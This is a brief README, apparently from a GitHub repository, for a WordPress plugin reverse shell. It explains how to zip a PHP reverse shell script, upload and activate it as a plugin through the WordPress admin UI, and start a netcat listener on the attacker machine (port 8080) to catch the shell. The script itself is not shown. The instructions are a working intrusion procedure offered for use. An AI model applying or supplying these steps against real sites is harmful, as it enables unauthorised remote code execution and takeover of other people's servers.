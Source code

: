 # wordpress_plugin_reverse_shell.php
# NOTE: PHP script uses example attacker machine IP:PORT - 127.0.0.1:8080

1.) Zip up php file.

2.) Navigate WP UI -> Plugins -> Add New -> Upload Plugin 
   -> Browse -> Install Now -> Activate Plugin.

3.) Setup listening port with netcat from attacker machine: netcat -lv 0.0.0.0 -p 8080
